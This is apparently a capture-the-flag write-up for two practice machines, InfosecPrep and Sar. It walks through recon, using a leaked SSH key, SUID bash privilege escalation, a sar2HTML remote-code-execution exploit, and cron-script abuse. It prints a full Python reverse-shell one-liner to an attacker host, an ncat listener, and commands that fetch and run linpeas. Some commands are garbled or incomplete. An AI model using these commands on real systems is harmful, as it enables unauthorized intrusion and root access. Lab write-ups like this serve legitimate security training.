 # Machine: InfosecPrep

- Vulnerability: Privilege Escalation

- The severity of the issue: Meduim

- Description :

with the vulnerability, an attacker can gain unauthorized privileged access to a system

- Reproduction :

Going to our browser with the provided ip_add

With it (IP Address of the machine) the first thing got in mind is to grab a series of ports with the use of Nmap

	nmap -a ip_add
	
	port => 80, 22 (good)!
  
Then with The help of Nikto, we can scan web servers for known vulnerabilities 

	nikto -host ip_add

After that we've some directories we've tested the common robots.txt which tells the search engines which directories not to enter :
 
	ip_add/robots.txt
	
	output -> /secret.txt
  
This seems like an interesting place to visit, after that we've got a text seems like a base64 encoded file with the equal sign the end first guess i thought let's decoded it
 
	wget ip_add/secret.txt ; cat secret.txt ; base64 -d > ssh_key.txt 
 
This is actually a private key and based on our previous scan we've noticed a port for ssh connection 22 
 
then we thought why not connect with the user 'oscp' and the host ip_add using the private key after changing their permissions (Secure) : 
 
	chmod 600 ssh_key.txt ; ssh -i ssh_key.txt user@ip_add -p 22 
 
Bingo we've login and we've got our first flag called local;
 

Let's scan with a tool just trying to search for possible and available exploits i'm using Linpeas :

	wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh ; chmod +x linpeas.sh ; ./linepeas 

though the scan of Linepeas we've noticed a suid in the bash builtin command (indicates that the file has the setuid bit set) which means we can gain access through a ;

	/bin/bash -p
	whoami 
	
with the -p option through some googling it turns up it's a bug that allows the default shell to run with SUID privileges meaning that we have permission to run with the owner privilege

I gain access and i become a root

	cd /root/ ; cat proof.txt
	
Done!

# Resources:

https://gtfobins.github.io/gtfobins/bash/

man nmap, nikto

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS 


# Machine: Sar

- Vulnerability: Remote Code Execution (RCE)

- The severity of the issue: High

- Description :

an attacker can remotely execute commands on someone else's computing device

- Reproduction :

Going to our browser with the provided ip_add, it's a default page for the Apache2 server i've read and it has nothing

As always the first thing got in mind is to grab a series of ports with the use of Nmap

	nmap -a ip_add
	
	we've got only an open port for http communication 80

  
testing our robots.txt:
 
	ip_add/robots.txt

It has a directory for sar2HTML i enter, and i've read the full page and i got no idea the first thing i did is to google the name of sar2HTML, and it turns up it a command execution and i've looked for the verified one using in exploit-db :

	searchsploit sar2HTML
	
the exploit is a python script i creat a rce.py file that has the script, good!

i've run the script and i required the url, i've to give him the url with the sar2HTML path;

	python3.9 rce.py
	
	url -> http://ip_add/sar2HTML/

then i require a command ;

	cmd => ls
	
good we've got for ourselves a remote code execution, since we're dealing with rce it would be useful to use the reverse shell in order to communicate (i'll be using python3 (already checked if it exists)):

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("My_machine_ip_add",Port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
	
	-c option to run full syntaxes in single line

on the other side, i'm listing through the port i've specified early 
 
	ncat -lvp 1010


with both we've got for ourselves a connection with the victim machine, based on the other machine starting our search for a flag maybe called local.txt;

	find / -type f -name local.txt 2> /dev/null
	
bingo we've got a flag good

for this part i'm back to my favorite tool Linpeas :

	./linepeas 

we've noticed a crontab runnign every 5 min */5 with sudo priviliege located in /var/www/html/finally.sh ;

	ls -la ; cat ./finally.sh
	
noticed that we don't have permission to modify on the finally script but he can run the write.sh that we have privileges so why not modify it to become ;
	touch output.txt ; chmod 777 output.txt
	cd /root/ ; ls -la >  output.txt
	
since the output always shows up at the root machine i thought to redirect it to a file after playing the waiting game for 5 min the script runs successfully and i was able to see the file in the root directory 


since we've soul the files, i've modified the file to output anything to my file ;


	cd /root/ ; ls -la >  output.txt  

# Resources:
as always man pages for the tools i've used

https://www.exploit-db.com/exploits/49344

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/655cec1f1a438fa611777deedd2a19a26aff8485/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
